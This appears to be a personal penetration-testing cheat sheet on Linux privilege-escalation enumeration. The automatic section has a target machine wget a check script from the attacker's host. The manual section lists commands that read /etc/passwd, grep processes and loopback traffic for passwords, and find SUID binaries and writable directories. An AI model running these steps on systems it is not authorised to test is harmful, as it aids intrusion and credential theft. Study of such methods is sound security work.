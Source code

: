 # Linux Enumeration

## Automatic Enumeration

### unix-privesc-check
On Kali host:
```bash
cp /usr/bin/unix-privesc-check/unix-privesc-check .
python3 -m http.server
```
On target machine:
```bash
wget http://<our IP>/unix-privesc-check
```
```bash
chmod +x unix-privesc-check
```
```bash
unix-privesc-check standard > output.txt
```
The `output.txt` file is meaty, and in standard mode it isn't complete, but it's a good start. The most obvious thing to do immediately is:
```bash
cat output.txt | grep -A 10 writable
```
This is just a quick start. Worth going over the file carefully if nothing immediately jumps out.

### linpeas
Nb. well worth repeating these steps but instead starting with:
```bash
cp /usr/share/peass/linpeas/linpeas.sh .
```

## Manual Enumeration
For fine grained/specific enumeration items see the glossary below. Hopefully a standard privesc check as detailed above should be sufficient, but in case it isn't.

### Misc.
Get context about the current user:
```bash
id
```
Enumerate users on the machine:
```bash
cat /etc/passwd
```
Enumerate the functional role of the machine:
```bash
hostname
```
OS and system version enumeration:
```bash
uname -a
```
alternatives to the same effect:
```bash
cat /etc/os-release
```
```bash
cat /etc/issue
```
Inspect environment variables:
```bash
env
```
Check the .bashrc:
```bash
cat ~/.bashrc
```

### Processes
List running processes:
```bash
ps aux
```
Search running processes for foolishness:
```bash
watch -n 1 "ps -aux | grep pass"
```

### Networking
TCP/IP information:
```bash
ifconfig a
```
Or if you happen to be prodding at a RHEL or Arch machine for some god forsaken reason:
```bash
ip a
```
Network routing information on Debian based systems:
```bash
routel 
```
or if that fails:
```bash
route
```
To see active network connections:
```bash
ss -ntplu
```
The `iptables` command is unlikely to be available to our peon-tier user by default on account of it being an admin privilege by default. However we may still be able to view some config via:
```bash
cat /etc/iptables/rules.v4
```
Some basic packet capture:
```bash
sudo tcpdump -i lo -A | grep "pass"
```
### Cronjobs
Enumerate cron jobs:
```bash
ls -lah /etc/cron*
```
and the current users scheduled jobs:
```bash
crontab -l
```
Jobs running as root will not appear when querying like this, for that run as root (although its hard to imagine when we might want to do this if we already have root...):
```bash
sudo crontab -l
```
Inspect the cron logs:
```bash
grep "CRON" /var/log/syslog
```

### Packages, Modules & Disks
Packages installed via `dpkg` (Debian package manager):
```bash
dpkg -l
```
List drives mounted at boot time:
```bash
cat /etc/fstab
```
in addition `mount` should tell us everything that's currently mounted:
```bash
mount
```
Available disks:
```bash
lsblk
```
Loaded kernel modules:
```bash
lsmod
```
For more info on a kernel module that we've taken an interest in:
```bash
/sbin/modinfo <intriguing module>
```

### File permissions
```bash
ls -l
```
Find every directory the current user can write to:
```bash
find / -writable -type d 2>/dev/null
```
Find SUID marked binaries:
```bash
find / -perm -u=s -type f 2>/dev/null
```
